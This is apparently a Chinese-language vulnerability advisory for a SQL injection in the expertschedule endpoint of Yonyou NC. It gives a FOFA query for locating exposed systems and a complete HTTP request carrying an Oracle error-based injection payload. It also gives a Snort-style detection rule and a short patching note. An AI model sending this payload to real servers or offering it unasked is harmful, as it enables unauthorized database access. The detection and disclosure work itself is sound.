

# 用友NC expertschedule 存在SQL注入漏洞

用友NC expertschedule 存在SQL注入漏洞

# 影响版本

用友NC

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   app=&quot;用友-UFIDA-NC&quot;

**POC/EXP：**

**step1**  sql注入

```
GET /ebvp/expeval/expertschedule;1.jpg?pkevalset=1%27+AND+6248%3D%28SELECT+UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28113%29%7C%7CCHR%28107%29%7C%7CCHR%28120%29%7C%7CCHR%28122%29%7C%7CCHR%28113%29%7C%7C%28SELECT+%28CASE+WHEN+%286248%3D6248%29+THEN+1+ELSE+0+END%29+FROM+DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28118%29%7C%7CCHR%2898%29%7C%7CCHR%28113%29%7C%7CCHR%2862%29%29%29+FROM+DUAL%29--+QtwN HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/157.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"用友NC - expertschedule pkevalset SQL注入漏洞 (XMLType报错注入)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/ebvp/expeval/expertschedule"; fast_pattern;
        content:"pkevalset="; nocase; distance:0;
        content:"XMLType"; nocase; distance:0; within:100;
        content:"CHR"; nocase; distance:0; within:50;
        content:"FROM"; nocase; distance:0; within:200;
        content:"DUAL"; nocase; distance:0; within:20;
    metadata:
        service http,
        affected_product "用友NC",
        vulnerability_type "SQL Injection (Error-based, Oracle)",
        severity "high";
    classtype:web-application-attack;
    sid:1000840;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
